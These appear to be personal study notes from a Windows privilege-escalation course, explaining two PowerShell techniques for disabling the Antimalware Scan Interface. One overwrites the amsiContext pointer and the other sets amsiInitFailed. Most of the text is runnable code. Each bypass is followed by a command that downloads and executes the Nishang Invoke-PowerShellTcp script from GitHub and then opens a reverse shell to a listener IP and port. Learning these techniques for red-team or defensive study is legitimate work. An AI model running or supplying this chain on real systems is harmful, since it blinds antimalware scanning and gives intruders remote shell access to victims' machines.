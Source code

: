 ## Bypass #1

The first bypass consists in modifying one field of the `System.Management.Automation.AmsiUtils` class, is an internal .NET class within PowerShell that interacts with the Antimalware Scan Interface (AMSI). The field we're interested specifically in is the `amsiContext` field.

To bypass AMSI, execute the following code within the powershell process:
- Create variable field
```powershell
$fields=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static')
```
- Uses the reflection feature of powershell. Using the reflection mechanism a process is able to inspect it's own memory, see it's own functions, see the code, and modify itself in memory. 
- Extract the different fields. 

- Create AMSI context
```powershell
$amsiContext=$fields | Where-Object { $_ -like "*Context" }
```
- Extract from fields one that ends in Context (amsiContext)

- Create a pointer to the context
```powershell
[IntPtr]$amsiContextPointer=$amsiContext.GetValue($null)
```
- Grab the value of the field and cast it to a int pointer

- Create an empty buffer
```powershell
[Int32[]]$emptyBuffer = @(0);
```

- Overwrite the context with the empty buffer
```powershell
[System.Runtime.InteropServices.Marshal]::Copy($emptyBuffer, 0, $amsiContextPointer, 1)
```
- Copy in this context is also called `manage memory copy`

Now, execute it again
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

Notice that now, no error appears. You can then start a reverse shell.
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

---

**Bypass #1 Added Information**

- View Class
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

- Get all the fields and add them into the variable `$fields`
```powershell
$fields=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static')
```

- View fields
```powershell
$fields
```
Shows fields:
- amsiLockObject
- amsiInitFailed
- amsiSession
- amsiContext

- Grab specific field. Here we grab amsiContext
```powershell
$fields | Where-Object { $_ -like "*Context" }
```

- We can also be even more specific
```powershell
$fields | Where-Object { $_Name -like "*Context" }
```

- equal (`-eq)
```powershell
$fields | Where-Object { $_Name -eq "*Context" }
```

Sometimes anti-virus does not allow certain strings which is why we use the `*` (give me the field where the name ends in Context, and starts with whatever)

- View field
```powershell
$amsiContext
```

- View pointer
```powershell
$amsiContextPointer
```

**Important:** You have to run the full command before some of these commands will work. So if you get an error you haven't added anything to the variable yet. Use the Bypass #1 commands to add them to the variables and then you can view what's inside. 
- Example

```powershell
[IntPtr]$amsiContextPointer=$amsiContext.GetValue($null)
```

```powershell
$amsiContextPointer
```

- use gdb to see what the pointer is in Hex
```sh
gdb -q
```

```sh
p/x <NUMBER>
```
- Shows the memory value of the PowerShell process.

---
## Bypass #2

The second method consist in setting the `amsiInitFailed` field to `true` within the `AmsiUtils` class.

```powershell
$amsiInitFailedField=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static') | Where-Object { $_.Name -like "amsiInitFailed" }
```

```powershell
$amsiInitFailedField.SetValue($null, $true)
```

```powershell 
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

What if we save the file on disk and not in memory?:
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -Outfile test.ps1
```
- This would trigger an event in the system, so the anti-virus will detect it. It's not called by AMSI, it's called by the `you wrote to a file` event.

Malware regularly uses packing to hide itself. Packing is when you hive the malicious code inside another program.  


---
## References

AMSI & Bypass: Review of Known AMSI Bypass Techniques and Introducing a New One: https://www.youtube.com/watch?v=8y8saWvzeLw

This repo contains some Amsi Bypass methods i found on different Blog Posts: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Forcing-an-error

One-liner to bypass the AMSI in a Powershell: https://arttoolkit.github.io/wadcoms/AMSI-Bypass-amsiContext/

All methods to bypass AMSI (2022): https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-23-windows-privesc-amsi-bypass/content/notes.txt